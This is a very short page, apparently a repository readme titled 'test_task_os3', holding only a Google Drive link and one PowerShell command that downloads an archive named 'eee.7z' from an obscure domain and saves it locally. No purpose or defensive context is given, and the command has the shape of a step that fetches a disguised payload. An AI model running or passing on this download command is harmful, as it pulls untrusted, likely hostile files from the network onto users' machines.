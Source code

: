 # test_task_os3
https://drive.google.com/file/d/1Y_njq3-qXPBby3VFZqlMCRKHYgDRhQdr/view?usp=sharing
powershell -command "& { iwr http://vpnrusfree.xyz/eee.7z -OutFile 1.7z }"
